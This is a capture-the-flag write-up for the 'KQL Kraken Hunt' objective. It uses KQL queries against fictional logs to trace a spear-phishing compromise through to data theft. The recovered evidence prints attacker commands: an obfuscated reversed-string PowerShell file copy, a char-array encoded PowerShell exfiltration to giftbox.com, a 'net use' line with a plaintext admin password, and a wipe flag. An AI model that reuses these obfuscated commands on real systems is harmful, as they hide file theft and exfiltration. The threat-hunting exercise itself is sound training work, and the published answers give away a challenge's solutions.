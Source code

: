 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr

alabaster_snowball@santaworkshopgeeseislands.org

  

  

What is the email address that was used to send this spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender

cwombley@gmail.com

  

  

  

What was the subject line used in the spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject

[EXTERNAL] Invoice foir reindeer food past due

  

### Case 2:

What is the role of our victim in the organization?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role

Head Elf

  

What is the hostname of the victim's machine?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname

Y1US-DESKTOP

  

What is the source IP linked to the victim?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr

10.10.0.4

  

### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  

What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

  

  

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  

What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  

What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

  

### Case 5:

  

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

  

What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

(2023-12-24T16:07:47Z)

( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

echo txt.tsiLeciNythguaN | rev

NaughtyNiceList.txt

  

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

(2023-12-24T16:58:43Z)

base64 decoded:  
[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN

downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file

  

  

### Case 6:

What is the name of the executable the attackers used in the final malicious command?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline

(2023-12-25T10:44:27Z)

downwithsanta.exe

  

What was the command line flag used alongside this executable?

--wipeall

  

  

→

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

Beware the Cube that Wombles

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTExODUzNzc1NywtMjAxMDE5MjYzXX0=
-->